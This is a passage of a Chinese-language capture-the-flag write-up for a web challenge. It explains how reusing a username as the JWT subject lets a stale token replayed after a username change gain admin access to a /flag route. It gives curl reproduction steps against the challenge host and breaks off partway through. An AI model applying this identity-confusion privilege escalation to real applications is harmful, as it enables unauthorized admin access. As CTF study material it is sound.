 - FLAG 页面只要求 `hasRole('ADMIN')`：

```147:153:/Users/lov3/Downloads/src/src/main/java/sk8boarding/dog/shadow_the_hedgedog/Routes.java
    @GetMapping(path = "/flag")
    @PreAuthorize("hasRole('ADMIN')")
    public String flag(Model model) {
        String flag = System.getenv("FLAG");
        model.addAttribute("flag", flag);
        return "flag";
    }
```

> 综上，“可重复用户名 + 修改用户名 + 以用户名作为 JWT subject + 认证时按用户名去 DB 取第一个用户并据此赋权”的组合，构成了**用户名/身份混淆（confusion）**漏洞。

---

### 三、漏洞成因（链路）

1. 普通用户登录后，拥有修改自身用户名的能力（可改为任意字符串），并可调用 `create-admin` 创建一个新管理员，管理员的“用户名”为一个 UUID（服务端会在 `/home` 闪现提示“Admin 'UUID' created”）。
2. 攻击者可把自己的用户名改成这个管理员的 UUID，造成“同名冲突”。随后再次以该 UUID 登录，服务端会给出一个 `shadow` JWT，其中 `sub`=该 UUID。
3. 然后攻击者再把自己的用户名改回其他任意字符串（与管理员 UUID 解耦），此时数据库中“UUID 这个名字”只剩下真正的管理员账号。
4. 攻击者保留之前捕获的 `shadow` JWT，再带着这个旧 token 请求 `/flag`。鉴权过滤器会：
   - 从 token 取到 `sub=UUID`；
   - 进数据库用“UUID”查找用户并取第一个（现在只剩管理员）；
   - 于是以管理员的权限进入 `/flag`，拿到 FLAG。

> 关键在于：`JwtFilter` 并未校验“当前登录用户是否仍然是该 subject 的拥有者”，而是无条件用 `sub` 去 DB 查当前的“同名用户”。改名 + 旧 token 就实现了**“越权身份置换”**。

---

### 四、复现步骤（手工）

以下均可用浏览器完成，也提供 `curl` 版。

1) 注册并登录一个普通用户：

```bash
# 注册
curl -i -c cookies.txt -b cookies.txt \
  -X POST 'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/signup' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=attacker123&password=Password1'

# 登录（服务端会下发 Set-Cookie: shadow=...）
curl -i -c cookies.txt -b cookies.txt \
  -X POST 'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/login' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=attacker123&password=Password1'
```

2) 创建管理员并获取管理员 UUID（从 `/home` 的闪存消息中解析）：

```bash
# 触发创建管理员
curl -s -c cookies.txt -b cookies.txt \
  -X POST 'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/create-admin' \
  -H 'Content-Type: application/x-www-form-urlencoded' --data '' >/dev/null

# 打开 /home 并解析 "Admin '...UUID...' created"
ADMIN_UUID=$(curl -s -c cookies.txt -b cookies.txt \
  'https://web-shadow-the-hedgedog-a360d99d6aeb.c.sk8.dog/home' \
  | sed -n "s/.*Admin '\([^']\+\)'.*/\1/p")

echo "Admin UUID: $ADMIN_UUID"
```

